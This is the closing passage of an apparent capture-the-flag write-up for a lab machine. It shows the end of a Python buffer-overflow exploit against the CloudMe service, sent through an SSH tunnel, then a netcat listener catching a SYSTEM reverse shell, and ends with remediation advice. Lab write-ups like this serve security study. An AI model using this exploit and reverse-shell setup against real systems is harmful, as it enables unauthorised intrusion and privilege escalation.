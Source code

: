 buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,4444))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
{{< /highlight >}}

**Note**: The exploit will be run against port `4444` on the local machine (attacking machine) but it will be forwarded to the web server on port `8888` leveraging the ssh tunnel.

Launching the exploit locally will result in a **SYSTEM** shell!
{{< highlight html >}}
nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.198] 49688
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>
{{< /highlight >}}

## Lessons learned and remediations

- The website is built on on a technology that presents security vulnerabilities. It was easy to find an exploit and gain a low privileged session on the web server. The administrator should patch the software if an update is available or he should consider to switch to another service that is more secure.
- The administrator should consider removing the CloudMe application (vulnerable to BoF and running as Local System) from a system space dedicated to low privileged users. The program can be easily exploited to gain System privileges on the machine.  
